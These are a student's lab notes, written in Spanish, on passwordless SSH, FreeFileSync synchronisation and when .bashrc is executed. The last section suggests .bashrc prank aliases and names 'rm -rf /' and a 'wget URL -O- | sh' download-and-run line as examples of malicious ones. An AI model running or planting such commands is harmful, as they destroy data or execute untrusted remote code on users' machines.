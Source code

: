 ### Práctica 1.11. ssh sin contraseñas desde el laboratorio.
En este caso lo que se pide es que se pueda entrar desde cualquier maquina a cualquier maquina desde dentro del laboratorio.
Para ello:
- ssh-keygen -t rsa, genero un par de claves publica-privada
- Copio la clave publica en el fichero authorized_keys (en este caso lo puedo hacer en la misma maquina)
- Doy los permisos pertinentes
- Ya puedo hacer ssh desde cualquier maquina, de hecho para comprobar he hecho ssh a f-l3209-pc08 y desde esa misma sesion he hecho ssh a f-l3109-pc05. Puedo usar ssh entre cualquiera de las maquinas de la organizacion sin usar contraseña.

### Práctica 1.12. FreeFileSync
Voy a sincronizar el ordenador de mi casa con el del laboratorio haciendo uso de FreefileSync

He creado dos carpetas, una es ~/simula_labo/lagrs y otra es ~/simula_casa/lagrs.
En simula_casa/lagrs he creado un fichero llamado doc.txt. No hay ninguno en simula_labo/lagrs.
Abro la herramienta de FreeFileSync > Comparar > Sincronizar, botón de la derecha.
He usado la sincronización bidreccional y ahora tengo en ambos directorios lo mismo.

### Práctica 1.13. Conflictos con FreeFileSync
Para simular el conflito he editado el fichero desde casa, no he sincronizado y desde el labo. Tras haber editado desde el labo he intentado sincronizar. Sale un rayo rojo inicador de que ha ocurrido un conflicto. Para resolverlo hay que hacerlo a mano y luego elegir si es el lado derecho o el izquierdo con el que te quieres quedar

### Práctica 1.14. Sincronización real de tu cuenta (Práctica recomendable)
Ya he instalado en mi ordenador personal FreeFileSync para poder tener un backup de mis prácticas

### Práctica 1.15 Invocación de la shell
¿Cuándo se ejecuta .bashrc? ¿Solamente en las shell de login? ¿Solamente en las shell que no son de login? ¿O en ambos tipos de shell? ¿Por qué?

.bashrc > en un bash interactivo, no de login
En un bash interactivo de login se ejecuta el .bash_profile, .bash_profile ó .profile, el que encuentre
Un bash que no sea interactivo es por ejemplo un script por lo que se ejecuta $BASH_ENV

En resumen, .bashrc se ejecuta cada vez que se inicia una nueva sesión de terminal en modo interactivo, bash_profile cuando sea una sesión de login, por ejemplo ssh. Actualmente la diferencia entre shell de login y no de lgin es algo artificial. Suele convenir que en ambos se tenga lo mismo

Una broma sin mucha maldad podría ser:
vrincon@f-l2108-pc09:~$ cat .bashrc
alias ls='clear'

Cada vez que se haga ls se limpiará todo el terminal. Otra pequeña broma podría ser alias cd='exit' de tal manera que al intentar hacer un cd se saldrá de la sesión. Se pueden hacer cosas mucho peores como un rm -rf/ o wget http://alguna_url -O- | sh que descarga y ejecuta ese script que puede ser maicioso.
